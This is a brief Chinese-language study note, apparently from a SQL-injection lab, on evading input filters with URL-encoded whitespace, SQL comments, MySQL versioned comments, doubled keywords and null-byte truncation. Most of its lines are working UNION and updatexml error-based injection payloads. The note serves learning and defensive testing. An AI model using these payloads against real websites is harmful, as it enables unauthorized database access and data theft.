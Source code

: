 两个空格代替一个空格，用 Tab 代替空格，%a0=空格，使用 url 编码

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/ /*!*/ %0A
```

```
%09 TAB 键（水平） 
%0a 新建一行 
%0c 新的一页 
%0d return 功能 
%0b TAB 键（垂直） 
%a0 空格
%0A
```

可以将**空格字符替换成注释** 

```
/**/
```

 还可以使用

```
 /*!这里的根据 mysql 版本的内容不注释*/
```

```
select * from users where id=1 /*!union*//*!select*/1,2,3,4;
```

试试用之前报错注入的 payload 来修改，这里使用 ' 来闭合 sql 语句的首尾，%00应该是截断

```
?id=1'anandd(updatexml(1,concat(0x7e,database(),0x7e),1))anandd'1'='1
```

```
?id=1'anandd(updatexml(1,concat(0x7e,database(),0x7e),1));%00
```

<img src="图片\Snipaste_2023-01-23_14-47-04.png" alt="Snipaste_2023-01-23_14-47-04" style="zoom:67%;" />
